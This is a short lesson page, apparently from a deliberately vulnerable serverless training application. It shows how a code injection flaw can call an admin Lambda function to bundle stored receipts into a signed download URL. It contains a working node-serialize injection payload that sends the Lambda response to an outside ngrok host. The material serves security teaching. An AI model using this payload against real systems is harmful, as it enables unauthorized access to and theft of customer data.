 # LESSON #3: Sensitive Information Disclosure

An attcker can leverage the [code injection vulnerability](../LESSONS/LESSON_01.md) to invoke an admin functionality that will disclosure all the receipts from the S3 bucket.

Sending the following payload will invoke an admin function that will pack all the receipts within the specified year and month and will created a signed url to download them.
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ADMIN-GET-RECEIPT\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"year\": \"2018\", \"month\": \"12\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"http://0c971764.ngrok.io/lol?data=\"+JSON.stringify(d));}); }()"}
```

As a result: 
![alt signed-url](https://i.imgur.com/yMkJhKi.png)


Pasting the url in the browser will download the receipts form the S3 bucket:

![alt receipts](https://i.imgur.com/OXDQC9K.png)


